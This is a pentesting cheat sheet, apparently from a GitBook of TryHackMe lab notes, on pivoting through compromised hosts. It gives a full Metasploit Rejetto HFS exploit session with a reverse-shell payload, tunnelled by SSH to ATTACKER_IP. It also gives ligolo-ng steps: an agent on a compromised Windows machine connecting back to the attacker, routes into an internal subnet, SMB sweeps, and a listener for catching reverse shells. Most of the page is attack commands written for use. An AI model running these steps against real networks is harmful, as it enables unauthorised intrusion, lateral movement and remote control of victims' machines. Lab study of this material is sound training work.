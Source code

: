 ```bash

# Tunnelling Complex Exploits (Rejetto)
ssh tunneluser@ATTACKER_IP -R 8888:thmdc.za.tryhackme.com:80 -L *:6666:127.0.0.1:6666 -L *:7878:127.0.0.1:7878 -N
user@AttackBox$ msfconsole
msf6 > use rejetto_hfs_exec
msf6 exploit(windows/http/rejetto_hfs_exec) > set payload windows/shell_reverse_tcp
msf6 exploit(windows/http/rejetto_hfs_exec) > set lhost thmjmp2.za.tryhackme.com
msf6 exploit(windows/http/rejetto_hfs_exec) > set ReverseListenerBindAddress 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set lport 7878 
msf6 exploit(windows/http/rejetto_hfs_exec) > set srvhost 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set srvport 6666
msf6 exploit(windows/http/rejetto_hfs_exec) > set rhosts 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set rport 8888
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit
```
{% endcode %}

## ligolo-ng

{% code overflow="wrap" fullWidth="true" %}
```bash
https://4pfsec.com/ligolo
https://software-sinner.medium.com/how-to-tunnel-and-pivot-networks-using-ligolo-ng-cf828e59e740
https://arth0s.medium.com/ligolo-ng-pivoting-reverse-shells-and-file-transfers-6bfb54593fa5
https://github.com/nicocha30/ligolo-ng
Go to releases > Agent will be run on pivot machine, proxy on the attacking machine (use proper platform and arch)

# Setup Ligolo on Linux -> create tun interface
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
# Start proxy server (default port 11601):
./proxy -h # Help options
./proxy -selfcert # dynamically generate self-signed certificates

# Execute the agent (on compromised pivot Windows machine for example) 
C:\> agent.exe -connect $ATTACKER_IP:11601 -ignore-cert 
# We wait until on the C2 proxy part we see agent joined
ligolo-ng >> session # then 1
ligolo-ng >> ifconfig

# If that Windows machine has an internal network (10.10.120.0/24) that we want to access via pivoting
sudo ip route add 10.10.120.0/24 dev ligolo
# To confirm it 
ip route list
# List routes for an interface:
ip route show dev eth0
ip route show dev >interface<
# Now on the proxy server 
ligolo-ng >> session # select 1 or whatever session is and then start to set up the tunnel
[Agent : WIN-...\user@Win-client-01] >> start
# Check it is really working
cme smb 10.10.120.0/24

# Access to agent's/target's local ports (127.0.0.1)
https://github.com/nicocha30/ligolo-ng/wiki/Localhost

# Catch a revshell from a host on the internal network (C) -> we need to add a listener
[Agent: ...] >> listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4444
[Agent: ...] >> listener_list
```